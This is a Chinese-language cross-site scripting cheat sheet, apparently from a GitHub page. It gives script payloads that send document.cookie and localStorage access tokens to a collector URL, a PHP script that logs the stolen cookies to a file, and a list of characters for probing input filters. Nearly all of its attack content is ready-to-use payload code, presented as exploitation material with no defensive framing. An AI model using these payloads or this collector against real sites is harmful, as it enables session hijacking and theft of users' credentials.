 # Cross Site Scripting(XSS)

漏洞说明：XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

## 目录
- [常见的利用代码](#常见的利用代码)
  - [XSS获取cookie代码](#XSS获取cookie代码)
- [常用的XSS关键字](#常用的xss关键字，判断是否过滤)

## 常见的利用代码

### XSS获取cookie代码

能够获取到用户cookie的代码

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

把下面代码写入到cookie.php，该代码将获取到的cookie保存到cookies.txt文件中

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
```

## 常用的xss关键字，判断是否过滤
```html

>
">
'>
./
.\
\/
>>
>>'>
><">
'>>
">>
'>'>
">">
')
")
'')
')')
"))
"")
")")
''/
""/
'/'/
"/"/
''\
'\'\
"\"\
""\
```